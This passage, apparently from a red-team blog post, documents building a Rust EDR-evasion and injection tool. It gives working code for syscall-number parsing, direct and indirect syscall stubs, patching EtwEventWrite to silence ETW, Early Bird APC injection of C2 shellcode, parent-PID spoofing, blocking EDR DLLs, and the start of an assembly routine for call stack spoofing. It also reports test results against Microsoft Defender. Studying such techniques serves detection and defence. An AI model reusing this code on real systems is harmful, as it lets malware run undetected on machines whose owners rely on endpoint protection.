if let Ok(name_str) = name_cstr.to_str() {
if ntdll_function == name_str {
let ordinal_index = *ordinal.add(j as usize);
RVA = *address.add(ordinal_index as usize) as usize;
break;
}
}
}
if RVA != 0 { ntdll_base_address.add(RVA as usize) } else { ptr::null_mut() }
}
}Once the address of the targeted Nt function is resolved, syscalls can be made.
An in-depth explanation is done in this article where it explains relations in between the double-linked list and arrays indexing each other, in order to retrieve effectively the target Nt function's address.
IV. Indirect Syscalls, ETW Patching and Their Limitations
Before getting deeper into technical parts, it is important to understand the first strategy used to test evasion techniques in this section, as the strategy evolved during the article. So first, the implementation of the solution was aiming at creating a thread in an already existing process using the NtCreateRemoteThread function, in order to inject the C2 shellcode in an already existing process's opened thread. However, as we will see at the end of this section, this strategy evolved.
A. Parsing the SSN
The address of the wanted Nt function was obtained. The syscall number (SSN) needs to be parsed from a given Nt function, which is NtCreateRemoteThread in our case. An Nt function looks as follows in memory:

Remember the syscall number has to be pushed into the EAX register. Hence, it is 0C5 here, as the letter h is for hexadecimal. Therefore, if we parse the hexadecimal that is in between 4C8BD1B8 (first MOV instruction and beginning of the second one) and 0FC5 (SYSCALL instruction), the SSN can be found:
pub fn find_ssn(func_addr: *const u8) -> Option {
unsafe {
let mov_header = [0x4C, 0x8B, 0xD1, 0xB8];
let syscall = [0x0F, 0x05];
let bytes = std::slice::from_raw_parts(func_addr, 32);
let mut syscall_numbre_can_be_found: Option = None;
for i in 0..bytes.len() {
if i + mov_header.len() <= bytes.len() && bytes[i..i + mov_header.len()] == mov_header {
for j in i+mov_header.len()..bytes.len() {
if j+syscall.len() <= bytes.len() && bytes[j..j+syscall.len()] == syscall {
syscall_numbre_can_be_found = Some(i+mov_header.len());
break;
}
}
}
}
let mut ssn_tmp: Option = None;
if let Some(start_index_sys_number) = syscall_numbre_can_be_found {
println!("Syscall number start index: {:?} and syscall number is: {:X}{:X}",
start_index_sys_number,
bytes[start_index_sys_number+1],
bytes[start_index_sys_number]);
ssn_tmp = Some(u16::from_le_bytes([
bytes[start_index_sys_number],
bytes[start_index_sys_number+1]
]));
}
ssn_tmp
}
} Rust is used to develop the solution, the best documentation is Microsoft crate's documentation, where the search bar can be used to find structs or functions: Microsoft's crate. However, not all the structs or functions are always there, the most efficient way is to translate them from C using the NTDLL declaration file which is the absolute source of information.
B. Direct Syscalls
This section can be very low-level and technical. I strongly advise you to read this article in order to understand core concepts of low-level programming: Introduction to Stack-Based Buffer Overflow on x86 Architecture.
In order to make a direct syscall, it is needed to build our own syscall stub in Assembly. To do so, Rust provides the ASM macro that permits writing Assembly. Moreover, the Windows ABI defines how arguments should be passed when calling a function in Assembly on Windows. The first four arguments should be passed respectively in the RCX, RDX, R8 and R9 registers, and if the function takes more than four arguments, the fifth and higher should be passed in the stack. To pass arguments in the stack, first a shadow space of 32 bytes is required and the allocated space in stack for our arguments should have an alignment of 16 bytes. The shadow space is 32 bytes because as said by the documentation "The caller must always allocate sufficient space to store four register parameters, even if the callee doesn't take that many parameters", therefore as RCX, RDX, R8 and R9 are 8 bytes each a shadow space of 4*8 bytes = 32 bytes should be empty at the beginning of the allocated space for arguments in the stack. Hence, in total the space needed in stack is 32 bytes + number of arguments * 8 bytes, the result of this modulo 16 should be 0 as a 16 bytes alignment is required. Therefore, the two conditions are:
Total_size = 32 + number_of_args * 8
Total_size % 16 === 0All the arguments are passed as pointers if they do not fit in a USIZE, which is 4 bytes in 32 architectures or 8 bytes in 64 architectures. The NtCreateRemoteThread function required in the solution takes 11 arguments, therefore 7 in the stack, so a space of 32 + 7*8 = 88 bytes would be needed. However, 88 modulo 16 is 8, therefore, to have an alignment of 16 bytes, we will need to allocate 96 bytes which is the highest and closest to 88 that is 0 modulo 16.
pub fn cup_IS(arg0: usize, arg1: usize, arg2: u32, arg3: u32, args: Vec, status: &mut u32){
let nt_cup_addr = get_function_address("NtCreateRemoteThread");
let mut ssn = find_ssn(nt_cup_addr as *const u8).unwrap() as u32;
let mut status_tmp: u32 = *status;
unsafe {
asm!(
"sub rsp, 96",
"mov [rsp + 32 + 0], {arg5}",
"mov [rsp + 32 + 8], {arg6}",
"mov [rsp + 32 + 16], {arg7}",
"mov [rsp + 32 + 24], {arg8}",
"mov [rsp + 32 + 32], {arg9}",
"mov [rsp + 32 + 40], {arg10}",
"mov [rsp + 32 + 48], {arg11}",
"mov qword ptr [rsp + 32 + 56], 0",
"mov r10, rcx",
"mov eax, {ssn:e}",
"syscall",
"add rsp, 96",
ssn = in(reg) ssn,
in("rcx") arg0, in("rdx") arg1,
in("r8") arg2, in("r9") arg3,
arg5 = in(reg) args[0], arg6 = in(reg) args[1],
arg7 = in(reg) args[2], arg8 = in(reg) args[3],
arg9 = in(reg) args[4], arg10 = in(reg) args[5],
arg11 = in(reg) args[6],
lateout("rax") status_tmp,
);
println!("NtCreateRemoteThread inDirect syscall status: {:X}", status_tmp);
*status = status_tmp;
}
} It is required to zero the unused space in the stack, such as described by the line "mov qword ptr [rsp + 32 + 56], 0", where the extra space used for alignment will not be used.
Making direct syscalls allows to evade user land detections from a function of the Windows API that could be hooked by EDRs. However, some EDRs still hook syscalls by changing the NTDLL's code and inserting a JMP instruction jumping to the EDR's code in order to analyze each syscall. In those cases, no syscall number (SSN) can be found:
Microsoft Defender for Endpoint (MDE) was used for testing and it does not hook syscalls, therefore the SSN could be retrieved. However, when it is not the case, other techniques can be used such as loading a clean copy of the NTDLL but this requires downloading it from a distant server which might trigger alerts or by using unconventional methods such as described in the IX. State of the art section. However, it is very unlikely that syscalls are hooked as kernel telemetry exists and that it requires some work.
Moreover, implementing only direct syscalls raises an issue during static analysis. If you decompile the binary and search for the syscall string, it will show the syscall instruction hardcoded, which is very suspicious from a blue team standpoint as legitimate programs should only use the high-level Windows API which is made for developer experience:

C. Indirect Syscalls
To remediate this, indirect syscalls which use trampolines to make the SYSCALL instruction were invented. This method consists in jumping to an already existing SYSCALL instruction in memory. As a result, the syscall string will not show up in the static analysis. In the implemented solution, the address of the SYSCALL instruction implemented in the wanted Nt function was used:
pub fn cup_IS(arg0: usize, arg1: usize, arg2: u32, arg3: u32, args: Vec, status: &mut u32){
let nt_cup_addr = get_function_address("NtCreateRemoteThread");
let mut sys_stub = trampoline_gap(nt_cup_addr as *const u8).unwrap();
let mut ssn = find_ssn(nt_cup_addr as *const u8).unwrap() as u32;
let mut status_tmp: u32 = *status;
unsafe {
asm!(
"sub rsp, 96",
"mov [rsp + 32 + 0], {arg5}",
"mov [rsp + 32 + 8], {arg6}",
"mov [rsp + 32 + 16], {arg7}",
"mov [rsp + 32 + 24], {arg8}",
"mov [rsp + 32 + 32], {arg9}",
"mov [rsp + 32 + 40], {arg10}",
"mov [rsp + 32 + 48], {arg11}",
"mov qword ptr [rsp + 32 + 56], 0",
"mov r10, rcx",
"mov eax, {ssn:e}",
"call {jmp_sys}",
"add rsp, 96",
ssn = in(reg) ssn,
in("rcx") arg0, in("rdx") arg1,
in("r8") arg2, in("r9") arg3,
arg5 = in(reg) args[0], arg6 = in(reg) args[1],
arg7 = in(reg) args[2], arg8 = in(reg) args[3],
arg9 = in(reg) args[4], arg10 = in(reg) args[5],
arg11 = in(reg) args[6],
jmp_sys = in(reg) sys_stub,
lateout("rax") status_tmp,
);
println!("NtCreateRemoteThread inDirect syscall status: {:X}", status_tmp);
*status = status_tmp;
}
} As a result, the indirect syscalls is still valid and during the static analysis the syscall string does not show anymore:

Nonetheless, implementing only indirect syscalls was still detected by MDE as other mechanisms such as ETW or kernel telemetry exist.
During testing, when the JMP instruction was used the program was crashing. It is because the CALL instruction restores the stack and the JMP does not restore the stack.

Indeed, a CALL instruction pushes first the return address in the stack in order to restore the stack pointer to where it was, because, since a syscall stub finishes by a RET instruction. The RET instruction tries to find the return address in the stack but does not find it when only the JMP instruction is used.
As the CALL instruction pushes the return address on the stack which means an 8 byte value. The zeroed space used for 16 alignment is used to keep this address in memory here (in between the 88 and 96 space that was previously hosting nothing, only zeros).
D. ETW Patching
ETW is a telemetry mechanism on Windows used with the publish/subscribe pattern which operates in user mode. Hence, ETW functions especially EtwEventWrite can be hooked to override the function's code with the RET instruction which will silence any event from ETW, which translates to changing the memory protection of EtwEventWrite to writable and insert the RET (0xC3) instruction at the beginning:
pub fn etw_patching(patched_function: &str) {
let etw_event_write_addr = get_function_address(patched_function);
let mut old_protect: PAGE_PROTECTION_FLAGS = PAGE_PROTECTION_FLAGS::default();
let new_protect: PAGE_PROTECTION_FLAGS = PAGE_PROTECTION_FLAGS(PAGE_EXECUTE_READWRITE.0);
unsafe {
VirtualProtect(etw_event_write_addr, 1, new_protect, &mut old_protect);
*(etw_event_write_addr as *mut u8) = 0xC3;
VirtualProtect(etw_event_write_addr, 1, old_protect, &mut old_protect);
}
}At this point, MDE still detected the thread creation because of kernel callbacks triggered by the NtCreateRemoteThread function:

Tags shown on the picture are MITRE labels which means that MDE classified the action as those labels (mostly DLL injection), however, no alerts were triggered. Nonetheless, the strategy needed to evolve to make as least noise as possible, the next section will explain in detail why this evolution is needed.
V. Evading Detection from Kernel Callbacks
After defeating ETW and user land hooks via indirect syscalls, the called NtCreateRemoteThread function is still logged by MDE and triggering the "Dynamic-link Library Injection", "Portable Executable Injection" and "Process Hollowing" MITRE tags. This is because of kernel telemetry and especially kernel callbacks. It is because kernel callbacks take into account thread creation, thread creation triggers the PsSetCreateThreadNotifyRoutine that EDRs subscribe to and that generate a notification in kernel mode on thread creation. Hence, NtCreateRemoteThread will always generate a kernel callback. However, two solutions are conceivable:
- Bring Your Own Vulnerable Driver (BYOVD): This consists in finding a vulnerable driver and taking advantage of it to disable the EDR or patch some functions to prevent kernel callbacks. Taking into account modern Windows kernel protections (Patch guard, HVCI, KCI, CFG), finding a vulnerable driver allowing writing primitives is not trivial.
- The second solution is to use functions from the native API that do not trigger kernel callbacks such as using a method called ApcQueueInjection.
The chosen method will be using stealthier function and ApcQueue injection. The goal of choosing this, is to trigger the least alerts and to generate the least telemetry possible towards the EDR. This method takes advantage of two mechanisms: Asynchronous Procedure Call (APC) and a thread in alertable state. APC is a function that executes asynchronously in the context of a specific thread. Windows provides the NtQueueApcThread function, which allows an APC routine to be added to a thread's APC queue. The function will execute when the thread enters an alertable state. A thread can be put in an alertable state using the NtTestAlert function, which will then execute the payload queued by APC.
A twist of this method which is called Early Bird APC Queue injection, exists and it is this method that is actually used in the developed solution. It consists in having two mechanisms: APC and a thread in a suspended state. The first part of this method is the same as the previous one, APC will queue a payload in a thread, however, the solution will create a process with a suspended thread meaning the execution of the process is suspended. Then APC will queue the payload in the thread's queue. Finally, the NtResumeThread function will be used to resume the thread's execution and execute the payload. This method presents an advantage to the classic APC Queue injection, which is that the malicious behavior takes place early on in the process initialization phase, increasing the likelihood of going under the radar of some EDR hooks.
VI. Toward Stealthier Implementation
This part will describe the implementation of the Early Bird APC Queue injection in order to delete the "Dynamic-link Library Injection", "Portable Executable Injection" and "Process Hollowing" MITRE tags. Moreover, parent PID spoofing will be demonstrated to hide the identity of the creator of the new process needed in Early Bird APC Queue injection. Eventually, the last part will show how to enable protection on the newly created process so as to prevent the EDR injecting DLLs in our process by restricting allowed DLLs to only the ones signed by Microsoft.
A. Early Bird APC Queue Injection
This injection will be carried out in 5 steps:
- Creating a new process with a thread in a suspended state using the NtCreateUserProcess function.
- Allocating virtual memory in the process for the payload using NtAllocateVirtualMemory.
- Writing the payload in the form of a shellcode in the previously allocated space using NtWriteVirtualMemory.
- Queuing the payload in the thread using APC and NtQueueAPCThread function.
- Resume the thread's execution in order to execute the payload (shellcode) using the NtResumeThread function.
First, the functions NtAllocateVirtualMemory, NtWriteVirtualMemory, NtResumeThread, NtQueueAPCThread and NtCreateUserProcess needed to be defined with only NtCreateUserProcess implementing a direct syscall as it is the most sensitive function. To define an Nt function in Rust the following pattern can be used:
pub type NTQUEUEAPC_T = unsafe extern "system" fn (
HANDLE,
windows::Win32::System::IO::PIO_APC_ROUTINE,
*mut core::ffi::c_void,
*mut core::ffi::c_void,
*mut core::ffi::c_void
) -> NTSTATUS;
pub fn nt_queue_apc_thread(
thread_handle: HANDLE,
shellcode_base_adress: *const u8,
) -> Option {
let apc_routine: windows::Win32::System::IO::PIO_APC_ROUTINE = Some(unsafe {
std::mem::transmute::<*mut u8, unsafe extern "system" fn(
*mut core::ffi::c_void,
*mut windows::Win32::System::IO::IO_STATUS_BLOCK,
u32
)>(shellcode_base_adress as *mut u8)
});
let proc = get_function_address("NtQueueApcThread");
let s_NtQueueApcThread_t: definitions::NTQUEUEAPC_T = unsafe { std::mem::transmute(proc) };
let status: NTSTATUS = unsafe {
s_NtQueueApcThread_t(thread_handle, apc_routine, ptr::null_mut(), ptr::null_mut(), ptr::null_mut())
};
Some(status)
} Basically, the address of the wanted function is retrieved. Then, a function pointer type matching the expected calling convention and signature is defined, allowing the raw address to be casted and invoked correctly with the correct memory layout. Once the pointer to the function is retrieved, the Nt function can be called. All function definitions can be found in this reference: NtDoc - The native NT API online documentation. The NtCreateUserProcess indirect syscall essentially follows the implementation of the seen syscall in the C. Indirect syscalls part.
Here, what is the most interesting is the kill chain:
let status = nt_create_user_process(
&mut process_handle,
&mut thread_handle,
windows::Win32::System::Threading::PROCESS_ALL_ACCESS.0,
THREAD_ALL_ACCESS.0,
ptr::null_mut(),
ptr::null_mut(),
0x00000100, // PROCESS_CREATE_FLAGS_INHERIT_FROM_PARENT
0x1, // THREAD_CREATE_FLAGS_SUSPENDED
process_parameters,
create_info.as_mut(),
attr_list
);
let mut base_adress: *mut core::ffi::c_void = ptr::null_mut();
let mut region_size: usize = MY_PAYLOAD.len();
let allocation_type: usize = (MEM_COMMIT | MEM_RESERVE).0 as usize;
let protect: usize = PAGE_EXECUTE_READWRITE.0 as usize;
let status_va: NTSTATUS = nt_allocate_virtual_memory(
process_handle, &mut base_adress, 0,
&mut region_size, allocation_type, protect
).unwrap();
let status = nt_write_virtual_memory(
process_handle, base_adress,
MY_PAYLOAD.as_ptr() as *mut core::ffi::c_void,
region_size, bytes_written
);
let status = nt_queue_apc_thread(thread_handle, base_adress as *const u8);
let previous_suspended_count: *mut u32 = ptr::null_mut();
let status = nt_resume_thread(thread_handle, previous_suspended_count);If we take a look at the parameters passed to NtCreateUserProcess, the 0x1 flag stands out, which is THREAD_CREATE_FLAGS_SUSPENDED. This means the thread will start in a suspended state. When the ResumeThread function is called, the payload in the APC queue is executed. It is because when a thread is started for the first time, since it was initialized in a suspended state, the RtlUserThreadStart function is called and this function checks for pending APC, and processes them if the APC queue is not empty. In practice, the RtlUserThreadStart calls the KiUserApcDispatcher which executes APC pending tasks. If we execute the developed solution with x64dbg and set a breakpoint on RtlUserThreadStart and KiUserApcDispatcher. The program stops on both breakpoints which demonstrates that APC pending tasks are processed when a suspended thread is resumed with the ResumeThread function:

Inspecting the call stack of the newly created process, it is clear that the RtlUserThreadStart function is called. Putting a breakpoint on KiUserApcDispatcher shows that it stopped on it, moreover the call stack on the breakpoint clearly shows that KiUserApcDispatcher is used:


It is interesting to notice that NtTestAlert is invoked, even if it was not called explicitly in the program. Hence, a third party such as RtlUserThreadStart calls it which triggers the KiUserApcDispatcher routine that executes the shellcode queued with APC. So, in reality, RtlUserThreadStart executes pending APCs by calling NtTestAlert.
This technique results in silencing all the EDR's MITRE tags, but still shows in the EDR's kernel telemetry as process creation is detected through kernel callbacks. However, the EDR does not flag the injection like it used to flag it:

B. PPID Spoofing
Parent PID spoofing is a technique that consists in forcing the parent PID of a newly created process to a certain value. To do so, the NtCreateUserProcess function implements the attribute list parameter which permits passing additional advanced characteristics about the newly created process.
The NtCreateUserProcess function implements three main parameters: the process parameters (RTL_USER_PROCESS_PARAMETERS), the create info parameter (PS_CREATE_INFO) and the attribute list parameter (PS_ATTRIBUTE_LIST) which allows to specify advanced characteristics about the process such as the parent PID, token security, mitigation policies (DEP, ASLR, etc.), handle inheritance, debugging and job objects.
In practice, to set the parent PID of a created process the 0x60000 attribute needs to take the value of the handle of the wanted PPID:
// PPID spoofing
(*base.add(1)).Attribute = 0x60000;
(*base.add(1)).Size = std::mem::size_of::() as usize;
(*base.add(1)).Value = PsAttributeValue {
Value: parent_process_handle.0 as usize,
};
(*base.add(1)).ReturnLength = std::ptr::null_mut(); This mechanism allows to hide the creator of the process created by the Early Bird APC Queue injection. As a result, the name of the solution Stargate, which was the parent process of the injection, does not appear anymore in the EDR's telemetry, only the user is appearing (this permits to hide the initial binary):

C. Preventing Third-Party DLLs from Injecting into Our Process
Another interesting option is the 0x20010 which allows to specify a mitigation policy that blocks DLL that are not signed by Microsoft. Therefore, it prevents the EDR from injecting into our solution in order to monitor it, hook some functions or change its behavior. The PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON policy permits to block non Microsoft binaries:
// Prevent DLL to inject in our process
let mut policy: u64 = 0x0000100000000000;
(*base.add(2)).Attribute = 0x20010;
(*base.add(2)).Size = std::mem::size_of::();
(*base.add(2)).Value = PsAttributeValue {
ValuePtr: &mut policy as *mut u64 as *mut _,
};
(*base.add(2)).ReturnLength = std::ptr::null_mut(); This can be asserted by checking the attributes shown in Process Hacker:

In order to know the attributes values such as 0x20010 or 0x60000, high-level functions of the API (such as CreateProcessW) need to be used with a debugger such as x64dbg in order to decipher the values passed in the attribute list parameter. They can be deduced using this method, which can be automated using Frida.
D. Mitigating Call Stack Inspection
In order to mitigate the origin DLL of indirect syscalls, and reduce call stack inspection capacities, a technique called call stack spoofing will be explained. This technique could be implemented here to make the call stack of the NtCreateUserProcess function, more legitimate, even if it is not an optimal study-case. An optimal study case is when functions from a payload contained in unbacked memory are called, here call stack spoofing is adequate since it could permit masking the unbacked space as it appears as raw addresses in the call stack. For example, if we place a breakpoint on NtCreateUserProcess and execute our solution, the call stack looks like this:

The stack which is composed of stack frames which contain all the context necessary for execution of functions. Each stack frame is composed of the function's return address and parameters needed to process this function. A call stack is a list of nested function calls that were made to get to the current inspected function. Some EDRs use this mechanism to judge if a syscall is legitimate. All the elements in the red square can be replaced by building a fake stack frame. Here, the wanted call stack when reaching the NtCreateUserProcess function is:
ntdll.NtCreateUserProcess
kernel32.Gadget_Random_Function
kernel32.BaseThreadInitThunk
ntdll.RtlUserThreadStartThe presented call stack can be faked. First let's explain the choice of ntdll.RtlUserThreadStart and kernel32.BaseThreadInitThunk in the desired call stack. These two elements are functions that are always called when a thread is started. Hence, they appear legitimate for the EDR.
Then, the kernel32.Gadget_Random_Function function in the call is a random function that will need to be used. More specifically, the gadget that resides in this function is mandatory in order to create a fake call stack. Lastly, we have the NtCreateUserProcess syscall which is the goal of the whole call stack spoofing in order to make it appear more legitimate.
To create a fake call stack, it is needed to create fake stack frames. To create fake stack frames, the size of each stack frame needs to be known. To do so, there is a mechanism called stack unwinding that occurs natively in Windows. To calculate the right size to unwind the stack, the OS looks at the .pdata section which contains an array of RUNTIME_FUNCTION, in which the UnwindData field is an offset to an UNWIND_INFO structure. The array of UnwindCodes permits to calculate a function's stack frame's size.

The UNWIND_INFO structure contains an array of UnwindCodes which represents instructions set in a function's prologue, which basically represents elements of the function's context needed in the stack frame. The array of UnwindCodes permits to calculate a function's stack frame's size. UnwindCode is an enum defined as follows:
enum UnwindCode {
UWOP_PUSH_NONVOL = 0,
UWOP_ALLOC_LARGE = 1,
UWOP_ALLOC_SMALL = 2,
UWOP_SET_FPREG = 3,
UWOP_SAVE_NONVOL = 4,
UWOP_SAVE_NONVOL_FAR = 5,
UWOP_SAVE_XMM128 = 8,
UWOP_SAVE_XMM128_FAR = 9,
UWOP_PUSH_MACHFRAME = 10
}The full code to compute a function stack size is as follows:
pub unsafe fn calculate_function_stack_size(
mut pruntime_function: *mut IMAGE_RUNTIME_FUNCTION_ENTRY,
image_base: u64,
) -> u32 {
let base_ptr = (((*pruntime_function).Anonymous.UnwindData as u64) + image_base) as *const u8;
let byte0 = *base_ptr;
let flags = (byte0 >> 3) & 0x1F;
let count_codes = *base_ptr.add(2) as usize;
let unwind_codes_ptr = base_ptr.add(4) as *const u16;
let mut total: u32 = 0;
let mut i: usize = 0;
while i < count_codes {
let slot = *unwind_codes_ptr.add(i);
let op_byte = (slot >> 8) as u8;
let unwind_op = op_byte & 0x0F;
let op_info = (op_byte >> 4) & 0x0F;
match unwind_op {
UWOP_PUSH_NONVOL => { total += 8; i += 1; }
UWOP_ALLOC_LARGE => {
i += 1;
let next = *unwind_codes_ptr.add(i) as u32;
if op_info == 0 { total += next * 8; i += 1; }
else { i += 1; let high = (*unwind_codes_ptr.add(i) as u32) << 16; total += next + high; i += 1; }
}
UWOP_ALLOC_SMALL => { total += (op_info as u32 * 8) + 8; i += 1; }
UWOP_SET_FPREG => { i += 1; }
UWOP_SAVE_NONVOL => { i += 1; }
UWOP_SAVE_NONVOL_FAR => { i += 2; }
UWOP_SAVE_XMM128 => { i += 2; }
UWOP_SAVE_XMM128_FAR => { i += 3; }
UWOP_PUSH_MACHFRAME => { i += 1; }
_ => { i += 1; }
}
}
if (flags & 0x4) != 0 {
let mut chain_idx = count_codes;
if (chain_idx & 1) != 0 { chain_idx += 1; }
let chained_rf = unwind_codes_ptr.add(chain_idx) as *mut IMAGE_RUNTIME_FUNCTION_ENTRY;
return total + calculate_function_stack_size(chained_rf, image_base);
}
total
}Now being able to compute the stack frame's sizes, we can focus on the gadget's purpose. The gadget that is searched is a jmp qword [rbx] in which we can manipulate the RBX register via ASM. So when a ret instruction is hit, if the address of the gadget is on top of the stack it will be used to jump to the address contained in RBX.
Since our gadget is jmp qword [rbx], and we can manipulate RBX to our convenience. After each syscall instruction, there is a ret instruction. Hence, with a gadget like this we can jump to the wanted part of the code after a syscall instruction, which is our case when executing NtCreateUserProcess. The gadget can be found with the following piece of code:
pub fn find_all_jmp_rbx_gadgets(module_base: *mut u8) -> Vec<(*const u8, u64)> {
unsafe {
let dos_header = module_base as *const IMAGE_DOS_HEADER;
let nt_headers = module_base.add((*dos_header).e_lfanew as usize) as *const IMAGE_NT_HEADERS64;
let image_size = (*nt_headers).OptionalHeader.SizeOfImage as usize;
let mut results = Vec::new();
for i in 0..image_size - 1 {
let byte = module_base.add(i);
if *byte == 0xFF && *byte.add(1) == 0x23 {
let gadget_addr = byte as *const u8;
let mut image_base: u64 = 0;
let prf = windows::Win32::System::Diagnostics::Debug::RtlLookupFunctionEntry(
gadget_addr as u64,
&mut image_base,
Some(std::ptr::null_mut()),
);
if prf.is_null() { continue; }
let frame_size = calculate_function_stack_size(prf, image_base) as u64;
results.push((gadget_addr, frame_size));
}
}
results
}
}This jmp instruction will be used to jump to a part of memory (.restore part) where we will restore the stack manually in ASM, since we created fake stack frames if we don't restore the stack manually the program will crash. The ASM code needs to be in a separate file as Rust does not permit stack manipulation from the ASM macro (there is an experimental macro named NAKED_ASM, but it was not used during the development of this tool). The ASM code used for call stack spoofing is as follows:
; =========================
; STACK_INFO OFFSETS
; =========================
%define pRtlUserThreadStart_RetAddr 0
%define dwRtlUserThreadStart_Size 8
%define pBaseThreadInitThunk_RedAddr 16
%define dwBaseThreadInitThunk_Size 24
%define pGadgetAddr 32
%define dwGadget_Size 40
%define pTargetFunction 48
%define pRbx 56
%define dwNumberOfArgs 64
%define pArgs 72
%define arg8 80
%define arg9 88
%define arg10 96
%define ssn 104
%define jmp_stub 112
global Spoof
section .text
Spoof:
pop r15
mov r13, rcx
push 0
; --- RtlUserThreadStart frame ---
mov r10, [r13 + dwRtlUserThreadStart_Size]
sub rsp, r10
